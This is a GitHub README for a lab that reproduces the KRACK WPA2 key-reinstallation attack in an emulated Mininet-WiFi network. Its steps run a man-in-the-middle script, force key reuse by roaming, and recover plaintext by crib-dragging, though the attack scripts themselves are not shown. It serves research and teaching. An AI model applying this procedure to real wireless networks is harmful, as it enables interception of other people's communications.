 # docker-krack

Based on https://github.com/ramonfontes/reproducible-research/tree/master/mininet-wifi/krack-2017

## Install

* Install Virtualbox
* Install Vagrant
* Create the VM:

```bash
git clone https://github.com/Vayel/docker-krack
cd docker-krack
vagrant up

# Configuration commands running...
```

* Connect to the VM:

```bash
vagrant ssh
```

* Run the network:

```bash
./create_network.sh
# Sometimes:
# Would you like to shut down the controller right now? (y/n)
# yes
```

* In the Mininet-Wifi console:

```bash
# Open terminals on stations
xterm sta1 sta1 sta1 sta1 sta2 sta2
```

* On both `sta1` (in one of the opened XTerm) and `sta2`, connect to the AP:

```bash
./connect_wifi.sh N # N = 1 or 2 is the number of the station
```


* On `sta1`:

```bash
# Create a server to receive packets
./nc_listen.sh
```

* On `sta2`:

```bash
# Send "a message" to machine sta1
./nc_send.sh 1 "a message"
```

* On `sta1`:

```bash
# Launch a man-in-the-middle attack and print an alert when key is reused
./krack.sh 1
```

* Now send multiple messages from sta2 to sta1. If a key is used on m messages, after roam.sh is executed we will be available to display the content of 2m messages. Each key will have been used to encrypt 2 messages. So if you send m messages before the roam you will be able to 'see' m messages after the roam.
* On `sta1`:

```bash
# Reinitialise the message counter
./roam.sh 1
```

* Send some messages with netcat from `sta2` to `sta1`
* To reset the key, run on `sta1`:

```bash
./roam.sh 1
```

* Now, you can use the crib-dragging technique to recover messages that have been encrypted with the same key without knowing the wpa key. Refer to the [article](https://zestedesavoir.com/articles/2284/krack-attaques-contre-les-communications-wi-fi/) written by Vincent Lefoulon for more information on the technique.
